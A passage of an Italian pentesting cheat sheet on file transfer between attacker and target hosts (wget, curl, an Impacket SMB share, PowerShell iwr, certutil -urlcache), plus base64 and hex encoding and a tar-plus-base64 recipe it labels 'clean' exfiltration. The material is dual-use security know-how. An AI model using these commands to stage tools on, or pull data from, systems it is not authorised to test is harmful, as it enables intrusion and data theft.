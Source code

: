 **Client**

```bash
# wget/curl
wget http://<IP>:8000/file   # oppure
curl -O http://<IP>:8000/file

# scp
scp user@host:/path/file .

# SMB (Impacket)
python3 -m impacket.smbserver share .    # server
# lato target (Windows):
net use Z: \\<IP>\share
```

**Windows-only**

```powershell
# PowerShell
iwr http://<IP>/f -OutFile f
# certutil
certutil -urlcache -f http://<IP>/f f
```

---

## 🔐 Encoding/decoding & hashing

```bash
# Base64
cat f.bin | base64 > f.b64
base64 -d f.b64 > f.bin

# Hexdump
xxd -p f.bin | head
xxd -r -p hex.txt > out.bin

# Hash
md5sum file; sha1sum file; sha256sum file
# Windows
certutil -hashfile file SHA256
```

---

## 🧾 Archiviazione & exfil “pulita”

```bash
# Tar + Gzip + Base64 (testo incollabile)
tar czf - cartella/ | base64 > dump.b64
# Ricostruzione
base64 -d dump.b64 | tar xzf -
```
